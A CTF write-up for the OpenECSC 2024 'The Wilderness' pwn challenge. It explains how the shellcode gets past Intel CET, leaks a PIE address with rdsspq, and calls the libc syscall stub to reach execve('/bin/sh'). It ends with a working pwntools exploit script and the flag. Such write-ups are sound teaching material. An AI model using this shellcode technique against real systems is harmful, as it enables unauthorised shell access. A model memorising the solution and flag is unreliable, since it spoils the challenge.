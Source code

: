 ```yaml
---
title: 'OpenECSC 2024 - Round 2'
challenge: 'The Wilderness'
date: 2024-04-29T00:00:00+01:00
author: 'v0lp3'
description: 'Writeup for the OpenECSC 2024 - Round 2 CTF challenge "The Wilderness"' 
cover: '/img/openECSC/logo.png'
tags: ['pwn']
draft: false
---
```


**tl;dr**

The challenge requires input of our shellcode's bytecode. There are several constraints that increase the difficulty:

- The environment relies on [Intel CET: Control Flow Enforcement Technology](https://www.intel.com/content/www/us/en/developer/articles/technical/technical-look-control-flow-enforcement-technology.html).
- Forbidden opcodes include traps such as syscall, sysexit, and int80.
- **All** registers are cleared.
- Our shellcode cannot contain `\x00` bytes.
- The shellcode is executed in a memory area that is only readable and executable, thus polymorphic shellcode cannot be used.

## First step

Upon uncompressed, the archive provided by the challenge contains the following files:

```bash
$ tree --filelimit 5
.
├── Dockerfile
├── build
│   └── the_wilderness
├── docker-compose.yml
├── run.sh
└── sde-external-9.33.0-2024-01-07-lin
```

We can observe from ./run.sh that the binary is executed using the [Intel Software Development Emulator (Intel SDE)](https://www.intel.com/content/www/us/en/developer/articles/tool/software-development-emulator.html).

```
#!/bin/sh

echo "[+] starting challenge..."
/home/user/sde/sde64 -no-follow-child -cet -cet_output_file /dev/null -- /home/user/build/the_wilderness
echo "[+] challenge stopped"
```

It's worth noting that the flag `-cet` is in use, which indicates the implementation of control flow enforcement technology.

## Environment setup

I made two changes to the files to set up the debug environment:
- Added the flag `-debug` in the *run.sh* file
- Modified the *Dockerfile* to install gdb and [gef extension](https://github.com/hugsy/gef).

## Code review

Shifting our focus to the `get_code` function within the binary, we can observe the following:

- The memory is always mapped at the address `0xdead000`
- Initially, the memory is set as readable and writable with `PROT_READ | PROT_WRITE` (3).

{{< figure src="/img/openECSC/the_wilderness/mmap.png" position="left" caption="0xdead000 mmap" captionPosition="left">}}

- Before execution, the permissions of the mapped area `0xdead000` are changed to `PROT_EXEC | PROT_READ` (5) using *[mprotect](https://man7.org/linux/man-pages/man2/mprotect.2.html)*.

{{< figure src="/img/openECSC/the_wilderness/mprotect.png" position="left" caption="0xdead000 mprotect" captionPosition="left">}}

- Our input cannot contain the bytecode `\x00`.

{{< figure src="/img/openECSC/the_wilderness/holes.png" position="left" caption="holes check" captionPosition="left">}}

- The input must not include trap instructions such as *syscall*, *sysenter*, or *int80*.

{{< figure src="/img/openECSC/the_wilderness/traps_check.png" position="left" caption="traps check" captionPosition="left">}}

{{< figure src="/img/openECSC/the_wilderness/traps_blacklist.png" position="left" caption="traps blacklist" captionPosition="left">}}

In the `run_code` function, all registers are cleared, including the SIMD registers. Furthermore, before executing the shellcode, even the fs and gs base are zeroed, eliminating any possibility of leaking addresses.
## Divide et impera

### Problem 1: Intel Control Flow Enforcement Technology

Intel Control Flow Enforcement Technology (CET) is a mitigation measure aimed at thwarting techniques like Return-Oriented Programming (ROP) and Jump-Oriented Programming (JOP). Essentially, after a return or a jump, the next expected instruction is an `endbr64`. If this expectation is not met, the subsequent instruction will trigger a segmentation fault.

#### Solution

In this scenario, we have complete control over the instruction that will be executed. Essentially, we need to place `endbr64` at the beginning of our shellcode.

### Problem 2: Traps are forbidden

Traps instructions are prohibited, and the code that checks for this behavior appears to be robust. We are not allowed to use the *syscall*, *sysenter*, or *int80* instructions.

#### Solution

We can exploit the fact that a reference to `syscall` is present in the binary. When `arch_prctl` is called, it will invoke `syscall` from the libc. If we can obtain a leak of the address of the binary, we can then jump to the syscall entry in the PLT (Procedure Linkage Table).

### Problem 3: No leak?

The unsettling aspect of this challenge is that everything is zeroed out. All general-purpose registers and even special ([SIMD](https://en.wikipedia.org/wiki/Single_instruction,_multiple_data)) ones are cleared. Even the base of `fs` and `gs` is set to zero.

#### Solution

To overcome this problem, we need to find an instruction that will cause a leak in the registers. After some searching, I decided to skim through all the instructions of the [x86/x64 architecture](https://www.felixcloutier.com/x86/) architecture. Finally, I came across [RDSSPD/RDSSPQ](https://www.felixcloutier.com/x86/rdsspd:rdsspq). This instruction, when Intel CET shadow stack is enabled, will indeed cause a leak in the specified register.
## Exploit

Here is the full script:

```python
from pwn import *

context.arch = "amd64"

DEBUG = False

if DEBUG:
        import clipboard
        r = remote("127.0.0.1", 1337)
        r.recvuntil("remote ")
        port = r.recvline(keepends=False).decode()
        clipboard.copy(f"target remote :{port}")
else:
        r = remote("thewilderness.challs.open.ecsc2024.it", 38012)

shellcode = []

# bypass CET
shellcode += ["endbr64"]

# Get a PIE leak

shellcode += ["rdsspq rsp"] # rsp now contains a shadow stack pointer leak
shellcode += ["mov rbx, [rsp]"] # rbx now contains a PIE leak

# prepare arguments to syscall from libc

shellcode += ["xor rdi, rdi"]
shellcode += ["xor rdi, 59"] # execve syscall
shellcode += ["xor rsi, rsi"]
shellcode += ["xor rsi, 0xdead02a"] # address of /bin/sh

# Call plt[syscall]

shellcode += ["sub bx, 0x1563"] # subtract main+63 offset
shellcode += ["add bx, 0x126f"] # offset of plt[syscall]
shellcode += ["call rbx"] # call plt[syscall]

shellcode += ['.ascii "/bin/sh"']

shellcode = asm("\n".join(shellcode))

r.sendlineafter(b"Wilderness?", str(len(shellcode)).encode())
r.sendlineafter(b"Wilderness?", shellcode)

log.info("Got shell ?!")

r.interactive()
```

> openECSC{h3r3_1n_th3_wild3rness_w3_l1ke_h1d1ng_1n_the_sh4dow_64d70520}